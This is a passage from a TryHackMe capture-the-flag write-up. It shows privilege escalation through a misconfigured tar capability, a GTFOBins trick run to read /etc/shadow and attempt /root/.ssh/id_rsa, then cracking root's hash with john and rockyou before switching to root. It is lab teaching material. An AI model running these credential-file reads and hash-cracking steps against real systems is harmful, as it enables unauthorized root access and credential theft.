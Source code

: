 **According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#file-read), we can reads data from files:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Server-From-Hell/images/a1.png)

**Which means I can read `/etc/shadow`??**
```
hades@hell:~$ tar xf /etc/shadow -I '/bin/sh -c "cat 1>&2"'
root:$6$gOnbjpUs${Redacted}/h9dOgaDaphveFY9ScIetMiI8F/XOnTxJxi1:18520:0:99999:7:::
[...]
```

Yes I can! :D

**Now, my theroy is: If user `hades` has a private SSH key, then user `root` should also has it!**
```
hades@hell:~$ tar xf /root/.ssh/id_rsa -I '/bin/sh -c "cat 1>&2"'
tar (child): /root/.ssh/id_rsa: Cannot open: No such file or directory
tar (child): Error is not recoverable: exiting now
/bin/tar: Child returned status 2
/bin/tar: Error is not recoverable: exiting now
```

Nope...

**Hmm... If we are able to read `/etc/shadow`, why not cracking root's hash?**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# nano root.hash  
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt root.hash        
[...]
{Redacted}         (root)
```

**Cracked! Let's Switch User to root!**
```
hades@hell:~$ su root
Password: 
root@hell:/home/hades# whoami;hostname;id;ip a
root
hell
uid=0(root) gid=0(root) groups=0(root)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:2b:4b:69:b7:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.130.204/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3096sec preferred_lft 3096sec
    inet6 fe80::2b:4bff:fe69:b75b/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

**root.txt:**
```
root@hell:~# cat /root/root.txt 
thm{Redacted}
```

# Conclusion

What we've learned:

1. Bruteforcing Open Ports via Custom Python Script
2. Enumerating NFS Share
3. Bruteforcing SSH Service Port via Custom Python Script
4. Privilege Escalation via Misconfigured binary `tar` Capabilities